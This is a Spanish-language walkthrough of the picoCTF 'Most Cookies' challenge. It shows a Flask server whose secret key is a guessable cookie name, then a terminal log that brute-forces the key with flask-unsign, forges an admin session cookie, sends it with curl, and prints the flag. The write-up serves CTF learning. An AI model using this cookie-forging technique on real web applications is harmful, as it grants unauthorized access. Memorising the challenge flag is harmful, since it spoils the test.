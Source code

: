 Descripción
Muy bien, basta de usar mi propio cifrado. ¡Las cookies de sesión de Flask deberían ser bastante seguras![servidor.pyhttp](https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py)[://mercury.picoctf.net:53700/](http://mercury.picoctf.net:53700/)



Hints:
1.⁠ ⁠¿Qué tan segura es una galleta de frasco?

Solución 1

Con web shell

Sepulveda24-picoctf@webshell:~$ ls
README.txt     cookies.txt  flag    flag.2    server.py
challenge.zip  drop-in      flag.1  flag.png  server.py.1
Sepulveda24-picoctf@webshell:~$ cat server.py
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
        if session.get("very_auth"):
                check = session["very_auth"]
                if check == "blank":
                        return render_template("index.html", title=title)
                else:
                        return make_response(redirect("/display"))
        else:
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

@app.route("/search", methods=["GET", "POST"])
def search():
        if "name" in request.form and request.form["name"] in cookie_names:
                resp = make_response(redirect("/display"))
                session["very_auth"] = request.form["name"]
                return resp
        else:
                message = "That doesn't appear to be a valid cookie."
                category = "danger"
                flash(message, category)
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

@app.route("/reset")
def reset():
        resp = make_response(redirect("/"))
        session.pop("very_auth", None)
        return resp

@app.route("/display", methods=["GET"])
def flag():
        if session.get("very_auth"):
                check = session["very_auth"]
                if check == "admin":
                        resp = make_response(render_template("flag.html", value=flag_value, title=title))
                        return resp
                flash("That is a cookie! Not very special though...", "success")
                return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
        else:
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

if __name__ == "__main__":
        app.run()

Sepulveda24-picoctf@webshell:~$ cat cookies.txt 
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
Sepulveda24-picoctf@webshell:~$ source ~/.venv/bin/activate
(.venv) Sepulveda24-picoctf@webshell:~$ python3 -m pip install flask-unsign
Requirement already satisfied: flask-unsign in ./.venv/lib/python3.10/site-packages (1.2.1)
Requirement already satisfied: markupsafe in ./.venv/lib/python3.10/site-packages (from flask-unsign) (3.0.2)
Requirement already satisfied: requests in ./.venv/lib/python3.10/site-packages (from flask-unsign) (2.32.3)
Requirement already satisfied: itsdangerous in ./.venv/lib/python3.10/site-packages (from flask-unsign) (2.2.0)
Requirement already satisfied: werkzeug in ./.venv/lib/python3.10/site-packages (from flask-unsign) (3.1.3)
Requirement already satisfied: flask in ./.venv/lib/python3.10/site-packages (from flask-unsign) (3.1.0)
Requirement already satisfied: blinker>=1.9 in ./.venv/lib/python3.10/site-packages (from flask->flask-unsign) (1.9.0)
Requirement already satisfied: Jinja2>=3.1.2 in ./.venv/lib/python3.10/site-packages (from flask->flask-unsign) (3.1.6)
Requirement already satisfied: click>=8.1.3 in ./.venv/lib/python3.10/site-packages (from flask->flask-unsign) (8.1.8)
Requirement already satisfied: certifi>=2017.4.17 in ./.venv/lib/python3.10/site-packages (from requests->flask-unsign) (2025.1.31)
Requirement already satisfied: idna<4,>=2.5 in ./.venv/lib/python3.10/site-packages (from requests->flask-unsign) (3.10)
Requirement already satisfied: charset-normalizer<4,>=2 in ./.venv/lib/python3.10/site-packages (from requests->flask-unsign) (3.4.1)
Requirement already satisfied: urllib3<3,>=1.21.1 in ./.venv/lib/python3.10/site-packages (from requests->flask-unsign) (2.3.0)
(.venv) Sepulveda24-picoctf@webshell:~$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiGzbmlja2VyZG9vZGxlIn0.Z-jIEw.5xm2Pt1ibdUiBox0J5YBq1hNDrw" --wordlist cookies.txt
[!] Failed to decode cookie, are you sure this was a Flask session cookie? 'utf-8' codec can't decode byte 0xb3 in position 14: invalid start byte
(.venv) Sepulveda24-picoctf@webshell:~$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOi
Jzbmlja2VyZG9vZGxlIn0.Z-jIEw.5xm2Pt1ibdUiBox0J5YBq1hNDrw" --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
(.venv) Sepulveda24-picoctf@webshell:~$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret  "fortune" eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-jIEw.5xm2Pt1ibdUiBox0J5Y
Bq1hNDrw
usage: flask-unsign [-h] [-d] [-u] [-s] [-l] [-c [COOKIE]] [--secret SECRET]
                    [--salt SALT] [--wordlist WORDLIST] [--threads THREADS]
                    [--no-literal-eval] [--server SERVER] [--insecure] [-o OUTPUT]
                    [-p PROXY] [--cookie-name COOKIE_NAME] [-U USER_AGENT] [-q]
                    [-C CHUNK_SIZE] [-v]
flask-unsign: error: unrecognized arguments: eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-jIEw.5xm2Pt1ibdUiBox0J5YBq1hNDrw
(.venv) Sepulveda24-picoctf@webshell:~$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret  "fortune" eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-jIEw.5xm2Pt1ibdUiBox0J5YBq1hNDrw
usage: flask-unsign [-h] [-d] [-u] [-s] [-l] [-c [COOKIE]] [--secret SECRET]
                    [--salt SALT] [--wordlist WORDLIST] [--threads THREADS]
                    [--no-literal-eval] [--server SERVER] [--insecure] [-o OUTPUT]
                    [-p PROXY] [--cookie-name COOKIE_NAME] [-U USER_AGENT] [-q]
                    [-C CHUNK_SIZE] [-v]
flask-unsign: error: unrecognized arguments: eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-jIEw.5xm2Pt1ibdUiBox0J5YBq1hNDrw
(.venv) Sepulveda24-picoctf@webshell:~$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret  "fortune"                                                                  
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-y1ow.mDxE3Utzl-6lpAS1Q5h0PpW7620
(.venv) Sepulveda24-picoctf@webshell:~$ curl -s http://mercury.picoctf.net:53700/display -H "Cookie:session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-y1ow.mDxE3Utzl-6lpAS1Q5h0PpW7620" | grep pico
(.venv) Sepulveda24-picoctf@webshell:~$ curl -s http://mercury.picoctf.net:53700/display -H "Cookie:session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-y1ow.mDxE3Utzl-6lpAS1Q5h0PpW7620" | grep pico
(.venv) Sepulveda24-picoctf@webshell:~$ curl -s http://mercury.picoctf.net:53700/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-y1ow.mDxE3Utzl-6lpAS1Q5h0PpW7620" | grep
 pico
(.venv) Sepulveda24-picoctf@webshell:~$ curl -s http://mercury.picoctf.net:53700/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-y1ow.mDxE3Utzl-6lpAS1Q5h0PpW7620" | grep pico
(.venv) Sepulveda24-picoctf@webshell:~$ 
(.venv) Sepulveda24-picoctf@webshell:~$ curl -s http://mercury.picoctf.net:53700/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-y1ow.mDxE3Utzl-6lpAS1Q5h0PpW7620" | grep pico
(.venv) Sepulveda24-picoctf@webshell:~$ curl -s http://mercury.picoctf.net:53700/display -H "Cookie:session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-y1ow.mDxE3Utzl-6lpAS1Q5h0PpW7620"       
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click the link.(.venv) Sepulveda24-picoctf@webshell:~$ curl -s http://mercury.picoctf.net:53700/H "Cookie:session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-y1ow.mDxE3Utzl-6lpAS1Q5h0PpW7620"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click (.venv) Sepulveda24-picoctf@webshell:~$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOi
JibGFuayJ9.Z-y4ng.1kNBCAsZjZsfUz-x-oqURTX1cfo" --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
(.venv) Sepulveda24-picoctf@webshell:~$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret  "peanut butter" 
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-y46g.2EjsLIDmT2cApD83EMmz4hAUAVo
(.venv) Sepulveda24-picoctf@webshell:~$ curl -s http://mercury.picoctf.net:53700/display -H "Cookie:session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-y46g.2EjsLIDmT2cApD83EMmz4hAUAVo" | grep 
pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_3646b931}</code></p>

Notas adicionales

--------------------


Referencias

https://github.com/pallets/flask
https://webshell.picoctf.org